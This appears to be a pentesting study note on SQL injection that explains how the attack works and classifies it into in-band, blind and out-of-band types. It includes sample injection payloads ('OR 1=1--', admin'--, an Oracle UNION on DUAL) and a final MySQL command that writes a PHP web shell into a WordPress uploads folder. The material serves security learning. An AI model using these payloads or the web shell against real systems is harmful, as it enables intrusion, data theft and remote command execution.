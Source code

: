 ```yaml
---
title: SQL injection
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting,web 
---
```


# SQL injection

SQL stands for Structure Query Language.

SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database:

+ to view data.
+ to retrieve it.
+ to modify it.
+ to delete it.
+ to compromise the infraestructure with what is known for instance as a denial of service attack.


A detailed Cheat sheet with manual union and blind attacks can be found in the [SQLi Cheat sheet for manual attack](sqli-manual-attack.md).

## Examples

1. Retrieving hidden data.
2. Subverting application logic.
3. UNION attacks.
4. Examining the database.
5. Blind SQL injection.



### Retrieving hidden data

Examples at a shopping application 

| Request URL | SQL Query | Explained |
| --- | --------- | ----------|
| http://insecure-website.com/products?category=Gifts | SELECT * FROM products WHERE category='Gift' AND release=1 | Restriction "released" is being used to hide products that are not released. Unreleased products will be presumably released=0 |
| http://insecure-website.com/products?category=Gifts'-- | SELECT * FROM products WHERE category='Gift'--' AND released=1 | Explained: Double dash sequence -- is a comment indicator in SQL which means that the rest of the query is interpretated as a comment. The application will display all the products in a category, being released or not. | 
| https://insecure-website.com/products?category=Gifts'+OR+1=1-- | SELECT * FROM products WHERE category='Gifts' OR 1=1--' AND released=1 | This will return all items where category is Gifts, or 1=1. Since 1=1 is always true, the query will return all items. | 


### Subverting application logic

| Request URL | SQL Query | Explained |
| ----------- | --------- | --------- |
| Login  |  SELECT * FROM users WHERE username="admin" AND password="lalalala" | Login process, probably with a POST method |
| Login: Adding admin'-- in the username and '' in the password field | SELECT * FROM users where username="admin'-- AND password='' | This query returns the user whose name is admin and succesfully logs the attacker as that user. |


### UNION attacks

In cases where the results of a SQL query are returned within the application responses, an attacker may try to retrieve data from others tables using the keyword UNION. They also can examine the existing database.



## Clasification

SQLi (for SQL injection) typically falls under three categories.


### 1. In-band SQLi / or Classic SQL injection

Attacks are sent from the same channel in which results are collected.


#### Error-based SQLi

The attacker performs actions that cause the database to produce error messages. The attacker can potentially use the data provided by these error messages to gather information about the structure of the database.


#### Union-based SQLi

This technique uses the UNION SQL operator.


### 2. Inferential (Blind) SQLi

The attacker sends data payloads to the server and observes the response and behaviour of the server to learn more about its structure. This method is called SQLi because the data is not transferred from the website database to the attacker.

Blind SQL injection relies on the response and behavioral pattern of the server to they are tipically slower to execute but may be just harmful.

#### Boolean-based (content-based) Blind SQLi

Inferential SQL injection technique that relies on sending a SQL query to the database which forces the application to return a different result depending on whether the query returns a TRUE or FLASE result.


#### Time-Based Blind SQLi

If you don't get a TRUE or FALSE response, sometimes you may infere if it is TRUE or FALSE based on time of response. Time-based SQL injection is a inferential SQL injection technique that relies on sending a SQL query to the database, which forces the database to wait for a specified amount of time (in seconds) before responding. The response time will indicate to the attacker whether the result of the query is TRUE or FALSE.


### 3. Out-of.Band SQLi

It's used when an attacjer is unabled to use the same channel to launch the attack and gather results. Out-of-band SQLi techniques would rely on the database server's ability to maje DNS or HTTP request to deliver data to an attacker.

Such is the case of Microsoft SQL Server's xp_dirtree command, which can be used to make DNS request to a server that an attacker controls, as well as Oracle Database's UTL_HTTP package, which can be used to send HTTP requests from SQL and PL/SQL ti a server that an attacker controls.


## DUAL

The DUAL is a special one row, one column table present by default in all Oracle databases. The owner of DUAL is SYS, but DUAL can be accessed by every user. This is a possible payload for SQLi:

```
'+UNION+SELECT+NULL+FROM+dual--
```

Oracle syntax requires the use of FROM, but some queries don't requires any table. For these case we use DUAL. Also Oracle doesn't allow the queries that employ information_schema.tables.


## Tools and payloads 

- See updated chart: [Attacks and tools for web pentesting](index-attacks-tools-web-pentesting.md).
- Detailed **Cheat sheet** with manual union and blind attacks can be found in the [SQLi Cheat sheet for manual attack](sqli-manual-attack.md).


## Gaining a reverse shell from SQL injection

Take a wordpress installation that uses a mysql database. If you manage to login into the mysql pannel (/phpmyadmin) as root then you could upload a php shell to the /wp-content/uploads/ folder.

```mysql
Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
```

